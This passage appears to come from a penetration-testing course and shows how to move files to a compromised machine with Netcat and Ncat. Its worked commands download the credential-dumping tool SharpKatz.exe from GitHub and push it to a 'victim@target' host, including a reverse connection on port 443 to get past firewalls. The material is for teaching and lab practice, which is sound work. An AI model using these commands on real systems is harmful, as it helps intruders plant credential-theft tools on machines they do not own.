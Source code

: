 ```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

### **Netcat - Attack Host - Sending File to Compromised machine**

From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

```bash
[!bash!]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
[!bash!]$ # Example using Original Netcat
[!bash!]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

### **Ncat - Attack Host - Sending File to Compromised machine**

By utilizing Ncat on our attacking host, we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with `--send-only`, there is no need to anticipate further incoming information.

```bash
[!bash!]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
[!bash!]$ # Example using Ncat
[!bash!]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

### **Attack Host - Sending File as Input to Netcat**

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.

```bash
[!bash!]$ # Example using Original Netcat
[!bash!]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### **Compromised Machine Connect to Netcat to Receive the File**

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```
